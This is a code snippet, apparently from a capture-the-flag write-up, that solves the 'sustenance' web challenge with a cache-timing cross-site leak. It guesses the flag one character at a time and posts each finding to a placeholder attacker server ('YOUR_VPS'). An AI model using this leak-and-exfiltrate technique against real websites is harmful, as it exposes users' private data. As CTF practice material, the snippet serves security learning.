 ``` js
  async function isCached(str) {
    let start = +new Date()
    let win = window.open(`https://sustenance.web.actf.co/q?q=` + encodeURIComponent(str))
    await sleep(500)
    win.close()
    
    // NOTE: base on the data collected, i should be 1~20, pretty small number
    for(let i=1; i<=30; i++) {
      const url = genSucceedUrl(start + i)
      let loadTime = await getLoadTime(url)
      if (loadTime <= baseLine) {
        
        // NOTE: check again to see if it really meets the condition
        let total = 0
        for(let j=1; j<=3; j++) {
          total += await getLoadTime(url)
        }
        total/=3
        if (total <= baseLine) {
          report(`isCached success, str=${str}, i=${i}, start=${start}, total=${total}`)
          return true
        }
      }
    }
    return false
  }

  async function main() {
    let flag = 'actf{yummy_'
    
    // NOTE: we can leak the charset first to speed up the process
    let chars = 'acefsmntuy_}'.split('')
    while(flag[flag.length - 1] !== '}') {
      for(let char of chars) {
        report('trying:'  + flag + char)
        if (await isCached(flag + char)) {
          flag += char
          report('flag:' + flag)
          break
        }
      }
    }
  }

  async function report(data) {
    console.log(data)
    // TODO: change to your VPS
    return fetch('https://YOUR_VPS/', { method: 'POST', body: data, mode: 'no-cors' }).catch(err => err);
  }
}
```
